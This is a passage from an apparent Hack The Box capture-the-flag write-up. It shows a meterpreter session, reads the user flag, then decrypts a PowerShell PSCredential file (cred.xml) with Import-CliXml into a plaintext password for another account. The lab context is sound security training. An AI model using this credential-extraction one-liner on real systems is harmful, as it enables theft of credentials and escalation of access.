     meterpreter > getuid
    Server username: HTB\nico
    

### User.txt

With either shell, I can to to `\users\nico\desktop` and find `user.txt`:

    
    
    C:\Users\nico\Desktop>type user.txt
    fa363aeb...
    

## Privesc: nico -> tom

On nico’s desktop, there’s a file, `cred.xml`:

    
    
    C:\Users\nico\Desktop>type cred.xml
    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
      <Obj RefId="0">
        <TN RefId="0">
          <T>System.Management.Automation.PSCredential</T>
          <T>System.Object</T>
        </TN>
        <ToString>System.Management.Automation.PSCredential</ToString>
        <Props>
          <S N="UserName">HTB\Tom</S>
          <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d2
    0f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
        </Props>
      </Obj>
    </Objs>
    

PowerShell has this object called a PSCredential, which provides a method to
store usernames, passwords, and credentials. There’s also two functions,
`Import-CliXml` and `Export-CliXml` , which are used to save these credentials
to and restore them from a file. This file is the output of `Export-CliXml`.

I can get a plaintext password from the file by loading it with `Import-
CliXml`, and then dumping the results:

    
    
    C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
    
    UserName       : Tom
    Password       : 1ts-mag1c!!!
    SecurePassword : System.Security.SecureString
    Domain         : HTB
    